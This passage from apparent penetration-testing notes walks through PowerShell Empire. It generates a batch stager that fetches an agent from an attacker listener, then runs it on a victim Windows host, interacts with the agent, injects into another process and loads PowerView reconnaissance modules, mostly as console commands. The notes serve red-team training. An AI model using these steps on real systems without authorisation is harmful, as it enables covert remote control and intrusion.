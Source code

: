	We can go back to the main menu with the command back: 
		(Empire: listeners/http) > back
	We can then list all available stagers with the command: 
		(Empire: listeners) > usestager [TAB] [TAB]
	To select the desired stager: 
		(Empire: listeners) > usestager windows/launcher_bat
	We can review the stager options with the info command: 
		(Empire: stager/windows/launcher_bat) > info
	Important stager options to set:
		Listener
	We can set the listener for our stager with the set command: 
		(Empire: stager/windows/launcher_bat) > set Listener http
	Finally, we create the stager with the execute command: 
		(Empire: stager/windows/launcher_bat) > execute
	We can have a look at the generated stager opening the file /tmp/launcher.bat:
		less /tmp/launcher.bat
	The stager is a base64 encoded PowerShell command string. The first stage payload will connect to the listener and fetch the rest of the Empire Agent code
The Empire Agent:
	With the listener running and the stager prepared, we now need to deploy the agent on the victim. The agent is the final payload retrieved by the stager and will alows us to execute commands and interact with the victim system
	The stager deletes itself and exits once it finishes execution
	Once the agent is operational on the target, it will established an AES ecrypted communication channel with the listener, using the data portion of the HTTP GET and POST requests
	To deploy our agent we need to copy the launche.bat file to the target Windows system and execute from a command prompt
	Once the agent is executed, we go back to the Empire console on our attacker machine and we see that Empire has received the agent call.
	We can display all active agents with the agents command:
		(Empire: stager/windows/launcher_bat) > agents
	Now we can interact with the desired agent using the interact command and the agent name (63WFMDBUS in the case of our example):
		(Empire: stager/windows/launcher_bat) > interact 63WFMDBUS
	Let"s use the agent to run sysinfo on the victim:
		(Empire: 63WFMDBUS) > sysinfo
	From within the agent, the help command shows all available commands:
		(Empire: 63WFMDBUS) > help
	Useful commands are:
		upload
		download
		exit
		shell (to open a command prompt)
		spawn (to create an additional agent on the same host)
	Like metasploit, Empire allows us to migrate the payload to a different process
	We first list all running processes with ps
		(Empire: 63WFMDBUS) > ps
	Once we have chosen our target process, we can inject the payload with the psinject command, and the name of the listener and the target process id as command arguments:
		(Empire: 63WFMDBUS) > psinject http 252
	Unlike th emigration feature in metasploit with meterpreter, once the migration process is completed, the original Empire agent remains active and we need to manually switch to the newly created one (with name WTUE31AV):
		(Empire: 63WFMDBUS) > agents
		(Empire: agents) > interact WTUE31AV
		(Empire: WTUE31AV) >
PowerShell Modules:
	The power of PowerShell and Empire comes from the many modules available. To list all the available modules we can use the usemodule command:
		(Empire: WTUE31AV) > usemodule [TAB] [TAB]
Situational Awareness:
	Let us investigate the get-user module:
		(Empire: WTUE31AV) > usemodule situational_awareness/network/powerview/get_user
	We can explore the options of the module with the info command: